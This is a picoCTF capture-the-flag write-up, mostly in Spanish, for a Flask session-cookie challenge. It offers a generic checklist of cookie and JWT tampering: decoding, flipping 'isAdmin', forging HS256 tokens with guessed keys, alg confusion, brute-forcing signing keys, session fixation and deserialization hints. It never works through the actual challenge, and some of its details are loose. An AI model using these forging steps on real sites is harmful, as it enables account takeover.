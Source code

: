 #### Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)
### **Solución** 

**Idea clave:** observar cómo están construidas las cookies (plain text, base64, JWT, cookie firmada, PHP/Flask serialized, etc.), luego manipularlas (flipear `isAdmin`, cambiar `user_id`, decodificar/descifrar, forjar firma si es débil) para acceder a la ruta que contiene la flag.

1. **Recon — obtener cookies y comportamiento**
    

`# obtener la página y cabeceras (observa Set-Cookie) curl -i -s "https://HOST/" -c cookies.txt # ver cookies recibidas cat cookies.txt # o con httpie (más legible) http --headers GET https://HOST/`

- Fíjate en nombres (`session`, `auth`, `token`, `user`) y valores.
    
- ¿La cookie aparece en cada request? ¿al acceder a /admin cambia la cookie?
    

2. **Inspeccionar formato de la cookie**
    

- Si parece base64: decodifica y busca texto legible.
    

`echo 'COOKIEVALUE' | base64 -d | strings # o urlsafe base64 python3 - <<'PY' import base64,sys s='COOKIEVALUE' s += '=' * ((4 - len(s)%4)%4) print(base64.urlsafe_b64decode(s)) PY`

- Si parece JSON web token (3 partes con `.`): decodifica header/payload:
    

`# header, payload python3 - <<'PY' import jwt,sys,base64 tok='header.payload.sig' h,p,s = tok.split('.') print(base64.urlsafe_b64decode(h+'==')) print(base64.urlsafe_b64decode(p+'==')) PY # o usar jwt.io / jwt-cli`

- Si parece `s:...` (PHP serialized) o `gAS...` (pickle/Flask/itsdangerous) investiga accordingly.
    

3. **Tamper básico: cambiar campo de rol / id**
    

- Si payload JSON contiene `"isAdmin":false`, intenta cambiar a `true`, re-encode y enviar:
    

`# ejemplo: construir cookie modificada (base64 JSON) orig='eyJ1c2VyIjoxLCJpc0FkbWluIjpmYWxzZX0=' python3 - <<'PY' import base64,json b=base64.urlsafe_b64decode('eyJ1c2VyIjoxLCJpc0FkbWluIjpmYWxzZX0==') j=json.loads(b) j['isAdmin']=True new=base64.urlsafe_b64encode(json.dumps(j).encode()).decode().rstrip('=') print(new) PY # usarla en request curl -s -b "session=NEWVALUE" https://HOST/admin | egrep -o 'picoCTF\{[^}]+\}'`

4. **Si es JWT firmado (alg: HS256/RS256)**
    

- Decodifica header/payload. Si `alg: none`, re-create token without signature.
    
- Para HS256, intenta keys comunes (`secret`, `password`) con `jwt` lib o `jwt_tool`:
    

`# prueba con secret "secret" python3 - <<'PY' import jwt payload={'user':'ctf-player','isAdmin':True} print(jwt.encode(payload,'secret',algorithm='HS256')) PY`

- Para RS256 → si te dan public key, intenta alg confusion (cambiar alg->HS256 and use public key as HMAC key) — prueba con `jwt_tool` patterns.
    

5. **Si es cookie firmada con framework (Flask/itsdangerous, Django, Rails)**
    

- **Flask (itsdangerous):** use `itsdangerous` or `flask-unsign` to verify/decode and try to forge if key weak.
    
- **Django:** `session` cookie puede contener session id (lookup server-side) — intenta session fixation or session store attacks.
    
- **Rails:** `cookie` may be signed/encrypted; try `rails_cookie_forensics` and test weak secret keys.
    

6. **If cookie looks serialized (PHP/dumped object)**
    

- If server unserializes user-supplied cookie, try object injection gadgets to achieve RCE or read files. Otherwise, modify simple fields and re-serialize (danger: signatures).
    

7. **Brute-forcing/signature cracking (si key small)**
    

- For HMAC-signed cookies, try common keys from wordlist with a script:
    

`# pseudocode: try keys to compute HMAC and compare import hmac,hashlib,base64 for key in open('wordlist'): ...`

- Use `jwt-hack` / `jwt_tool` to automate.
    

8. **Cookie replay / session fixation**
    

- If you can register user and get cookie for `ctf-player` or create new account, try to set cookie manually to impersonate known user. If session id predictable, brute-force IDs.
    

9. **Finding the flag**
    

- Once you can set `isAdmin=true` or access `/admin` or privileged endpoint, request page and extract flag:
    

`curl -s -b "session=MODIFIED" https://HOST/admin | grep -o 'picoCTF{[^}]*}'`

---

### **Notas adicionales**

- **Prioridad de inspección:** (1) ver si es JWT (contiene 2 `.`), (2) si base64 JSON, (3) si serialized frameworks, (4) si signed HMAC.
    
- **No rompas la firma sin validar** — si la cookie está firmada y firma válida requerida, forjar sin key fallará; invertir esfuerzo en conseguir la key (JS, repo, public files) suele ser más eficiente que bruteforce.
    
- **Busca la key en el cliente:** revisa JS, `robots.txt`, repo público, `/config.js`, archivos descargables; a veces la clave está expuesta.
    
- **Usa Burp Repeater** para iterar cookies rápidamente; usa `Intruder` para lotear keys.
    
- **Cuidado con HttpOnly/Secure:** HttpOnly evita JS-stealing pero no tampering via curl/Burp. Secure requiere HTTPS.
    
- **Si todo falla:** intenta session fixation (subir tu propio cookie value vía link/email) o exploit deserialización si el servidor unserializa sin validar.
    

---

### **Referencias**

- JWT cheatsheets / `jwt.io` / `jwt_tool`.
    
- Itsdangerous / Flask unsign articles (`flask-unsign` repo).
    
- Rails/Django cookie forensics guides.
    
- PayloadsAllTheThings — Cookie/Session attacks.
    
- Burp Suite — Repeater / Intruder usage.